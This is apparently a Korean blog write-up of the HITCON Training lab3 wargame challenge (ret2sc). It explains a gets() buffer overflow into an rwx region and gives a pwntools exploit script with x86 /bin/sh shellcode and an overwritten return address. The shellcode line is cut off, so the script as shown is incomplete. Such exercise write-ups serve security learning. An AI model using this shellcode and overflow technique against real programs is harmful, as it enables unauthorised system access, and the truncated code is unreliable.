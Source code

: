 ```yaml
---
layout: post
title: "[HITCON Training] lab3"
comments : true
category : War Game
---
```


# 문제
***

해당 binary는 read를 통해 hard coding된 영역에 0x32byte 만큼 입력을 받는다. 그리고 get 함수를 호출하는데 이 get 함수를 이용하면 bof를 발생시킬 수 있다.

++ hard coding된 영역은 rwx권한이 부여되어 있다. ++

ALSR이 걸려 있으므로 hard coding된 영역에 shellcode를 삽입한 뒤 get을 이용해 해당 주소로 jmp하면 shell을 얻을 수 있다.

# 풀이
***
```
#!/usr/bin/python

from pwn import *

file_path='/home/sungyun/HITCON-Training/LAB/lab3/ret2sc'

shell="\x90"*20
shell+="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x8$

pay="A"*32+"\x60\xa0\x04\x08"


p=process(file_path)

p.recvuntil(":")
p.send(shell)
p.recvuntil(":")
p.sendline(pay)

p.interactive()

```



